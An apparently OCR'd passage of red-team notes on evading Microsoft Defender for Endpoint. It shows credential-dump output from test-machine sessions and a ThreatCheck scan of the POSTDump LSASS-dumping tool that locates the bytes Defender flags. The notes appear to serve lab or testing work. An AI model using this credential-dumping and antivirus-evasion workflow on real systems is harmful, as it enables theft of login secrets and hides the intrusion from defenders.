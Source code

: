 ```
        tspkg :
        wdigest :
         * Username : TestMachine1$
         * Domain   : WORKGROUP
         * Password : (null)
        kerberos :
        ssp :
        credman :
        cloudap :

Authentication Id : 0 ; 59178986 (00000000:0386ffea)
Session           : Interactive from 2
User Name         : DWM-2
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 23-08-2023 14:19:50
SID               : S-1-5-90-0-2
        msv :
        tspkg :
        wdigest :
         * Username : TestMachine1$
         * Domain   : WORKGROUP
         * Password : (null)
        kerberos :
        ssp :
        credman :
        cloudap :

[......snip......]
```

<div style="page-break-after: always;"></div>

## PostDump

```
zbm:OenCdvE8
```

```
PS D:\Work\ADCS Challenges\Tools\ThreatCheck-master\ThreatCheck\ThreatCheck\bin\Release> .\ThreatCheck.exe -f D:\Work\BypassMDE\Tools\POSTDump-main\POSTDump\bin\x64\Release\POSTDump.exe -e defender
[+] Target file size: 81920 bytes
[+] Analyzing...
[!] Identified end of bad bytes at offset 0x13F9B
00000000   75 72 6E 3A 73 63 68 65  6D 61 73 2D 6D 69 63 72   urn:schemas-micr
00000010   6F 73 6F 66 74 2D 63 6F  6D 3A 61 73 6D 2E 76 32   osoft-com:asm.v2
00000020   22 3E 0D 0A 20 20 20 20  3C 73 65 63 75 72 69 74   ">··    <securit
00000030   79 3E 0D 0A 20 20 20 20  20 20 3C 72 65 71 75 65   y>··      <reque
00000040   73 74 65 64 50 72 69 76  69 6C 65 67 65 73 20 78   stedPrivileges x
00000050   6D 6C 6E 73 3D 22 75 72  6E 3A 73 63 68 65 6D 61   mlns="urn:schema
00000060   73 2D 6D 69 63 72 6F 73  6F 66 74 2D 63 6F 6D 3A   s-microsoft-com:
00000070   61 73 6D 2E 76 33 22 3E  0D 0A 20 20 20 20 20 20   asm.v3">··
00000080   20 20 3C 72 65 71 75 65  73 74 65 64 45 78 65 63     <requestedExec
00000090   75 74 69 6F 6E 4C 65 76  65 6C 20 6C 65 76 65 6C   utionLevel level
000000A0   3D 22 61 73 49 6E 76 6F  6B 65 72 22 20 75 69 41   ="asInvoker" uiA
000000B0   63 63 65 73 73 3D 22 66  61 6C 73 65 22 2F 3E 0D   ccess="false"/>·
000000C0   0A 20 20 20 20 20 20 3C  2F 72 65 71 75 65 73 74   ·      </request
000000D0   65 64 50 72 69 76 69 6C  65 67 65 73 3E 0D 0A 20   edPrivileges>··
000000E0   20 20 20 3C 2F 73 65 63  75 72 69 74 79 3E 0D 0A      </security>··
000000F0   20 20 3C 2F 74 72 75 73  74 49 6E 66 6F 3E 0D 0A     </trustInfo>··
```


[+]: Shellcode located at c7160